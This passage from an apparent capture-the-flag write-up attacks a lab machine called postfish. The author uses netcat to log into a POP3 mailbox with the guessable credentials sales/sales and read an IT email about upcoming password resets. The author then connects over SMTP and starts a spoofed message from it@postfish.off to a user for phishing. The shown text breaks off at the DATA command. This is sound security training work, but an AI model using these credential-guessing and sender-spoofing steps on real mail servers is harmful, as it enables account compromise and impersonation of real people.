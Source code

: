 You can see that Sales, HR, and team members have emails.

# Sales Team Mail Inbox

```bash
──(root💀kali)-[~/postfish]
└─# nc -vn 192.168.250.137 110                                                                                           1 ⨯
(UNKNOWN) [192.168.250.137] 110 (pop3) open
+OK Dovecot (Ubuntu) ready.
USER sales
+OK
PASS sales
+OK Logged in.
list
+OK 1 messages:
1 683
.
retr 1
+OK 683 octets
Return-Path: <it@postfish.off>
X-Original-To: sales@postfish.off
Delivered-To: sales@postfish.off
Received: by postfish.off (Postfix, from userid 997)
        id B277B45445; Wed, 31 Mar 2021 13:14:34 +0000 (UTC)
Received: from x (localhost [127.0.0.1])
        by postfish.off (Postfix) with SMTP id 7712145434
        for <sales@postfish.off>; Wed, 31 Mar 2021 13:11:23 +0000 (UTC)
Subject: ERP Registration Reminder
Message-Id: <20210331131139.7712145434@postfish.off>
Date: Wed, 31 Mar 2021 13:11:23 +0000 (UTC)
From: it@postfish.off

Hi Sales team,

We will be sending out password reset links in the upcoming week so that we can get you registered on the ERP system.

Regards,
IT
.
```

Sales team password is sales and it has a message from it team.
From the looks of it, this can be used for phishing.

# Phishing Brian Moore

```bash
┌──(root💀kali)-[~/postfish]
└─# nc -vn 192.168.250.137 25
(UNKNOWN) [192.168.250.137] 25 (smtp) open
220 postfish.off ESMTP Postfix (Ubuntu)
HELO x
250 postfish.off
MAIL FROM: it@postfish.off
250 2.1.0 Ok
RCPT TO: brian.moore@postifh.off
454 4.7.1 <brian.moore@postifh.off>: Relay access denied
RCPT TO: brian.moore@postfish.off
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
```